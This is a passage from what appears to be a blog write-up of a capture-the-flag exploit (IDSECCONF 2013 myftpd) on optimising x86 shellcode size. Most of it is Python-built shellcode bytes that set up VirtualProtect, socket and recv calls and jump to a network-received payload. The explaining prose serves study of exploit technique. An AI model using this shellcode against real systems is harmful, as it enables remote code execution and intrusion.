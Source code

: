 ``` python Shellcode post-JMP shuffle
shellcode += "\x50"                               # PUSH EAX
# invoke the call to `malloc`
shellcode += "\xFF\xD3"                           # CALL EBX
shellcode += "\x59\x51"                           # POP ECX, PUSH ECX
# save the memory handle, and push it up ready for later use
shellcode += "\x8B\xF0"                           # MOV ESI, EAX
shellcode += "\x50"                               # PUSH EAX
# set up virtual protect call
shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
shellcode += "\x8D\x44\x24\xDC"                   # LEA EAX, [ESP-0x24]
shellcode += "\x50"                               # PUSH EAX
shellcode += "\x6A\x40"                           # PUSH 0x40
shellcode += "\x51"                               # PUSH ECX
shellcode += "\x56"                               # PUSH ESI
# call virtual protect
shellcode += "\xFF\xD3"                           # CALL EBX
# prep the call for recv
shellcode += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
shellcode += "\x57"                               # PUSH EDI
shellcode += "\xFF\x13"                           # CALL [EBX]
# invoke the payload
shellcode += "\xFF\xE6"                           # JMP ESI
```

### Saving 2 - Initial address fudging

I didn't realise at first with the previous exploit, but at the time of the crash `ECX` actually contained a partially valid address from which we could start doing address calculations from. Our current method looks like this:

``` python FAT address calculation
# Get the address of `socket` into EBX
shellcode += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
shellcode += "\xC1\xEB\x08"                       # SHR EBX, 0x8
```

Given that the higher-order bytes in `ECX` were usable, I adjusted this bit so that it was a little smarter:

``` python Thinner address calculation
# Get the address of `socket` into EBX
shellcode += "\x8B\xD9"                           # MOV EBX,ECX <contains an address>
shellcode += "\xB3\x34"                           # MOV BL, 0x34
shellcode += "\x8A\xFB"                           # MOV BH, BL  <address now valid>
```

We're down to `6` bytes from `8`. `2` bytes saved!

### Saving 3 - Pushing byte values

Again, in my n00bness, I was trying to be too smart with jiggling `EAX` values to push things onto to the stack prior to the call to `socket()`:

``` python Silly socket() preparation
# set up the stack for the call to `socket`
shellcode += "\xB0\x06"                           # MOV AL, 0x6
shellcode += "\x50"                               # PUSH EAX
shellcode += "\xB0\x01"                           # MOV AL, 0x1
shellcode += "\x50"                               # PUSH EAX
shellcode += "\x40"                               # INC EAX
shellcode += "\x50"                               # PUSH EAX
```


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
